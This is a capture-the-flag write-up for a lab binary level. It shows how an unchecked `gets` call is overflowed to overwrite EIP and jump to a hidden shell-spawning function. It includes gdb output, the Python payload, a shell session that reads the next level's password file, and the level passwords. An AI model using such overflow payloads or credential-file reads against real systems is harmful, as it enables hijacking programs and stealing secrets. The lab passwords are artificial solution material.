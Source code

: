 # Level1

## Analysis

**In `main` :**
Just a `gets`

We also have a `run` function defined but never used
```
(gdb) info function
...
0x08048444  run
0x08048480  main
...
```

**In `run` :**
Open a shell with `level2` access

___

## Exploit

We need to access `run` by overwritting `eip` using the unprotected `gets` and overflowing the buffer

Getting eip offset using `offset.py`, which is `76`
```
 ❯ python3 offset.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

(gdb) r
Starting program: /home/user/level1/level1
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x54545454 in ?? ()

 ❯ python3 offset.py 54
76
```

Now, we can just replace `eip` with `run` adress
```
level1@RainFall:~$ python -c 'print "\x90" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Let's keep stdin open
```
level1@RainFall:~$ python -c 'print "\x90" * 76 + "\x44\x84\x04\x08"' > /tmp/level1 && cat /tmp/level1 - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

___

*Password: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a*